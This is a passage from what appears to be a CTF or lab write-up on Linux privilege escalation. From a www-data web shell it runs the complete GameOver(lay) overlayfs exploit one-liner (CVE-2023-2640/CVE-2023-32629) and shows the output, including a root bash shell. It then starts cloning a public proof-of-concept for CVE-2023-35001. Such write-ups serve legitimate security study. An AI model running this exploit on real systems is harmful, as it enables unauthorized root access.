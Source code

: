 I tried these password in different places, but didn't find much.

### GameOver(lay) - CVE-2023-2640 and CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'
```

```bash
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'

uid=0(root) gid=33(www-data) groups=33(www-data)
```

If we change `id` at the end to `bash` we get our `root` shell.

```bash
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'

root@webserver:/var/www/html/uploads#
```

```bash
root@webserver:/var/www/html/uploads# id

uid=0(root) gid=33(www-data) groups=33(www-data)
```

### [CVE-2023-35001](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2023-35001)

I cloned this [PoC exploit](https://github.com/synacktiv/CVE-2023-35001)

```bash
$ git clone https://github.com/synacktiv/CVE-2023-35001    
Cloning into 'CVE-2023-35001'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 0), reused 9 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), 13.02 KiB | 833.00 KiB/s, done.
```

```bash
$ cd CVE-2023-35001
```

```bash
$ ls
go.mod  go.sum  main.go  Makefile  README.md  src
```
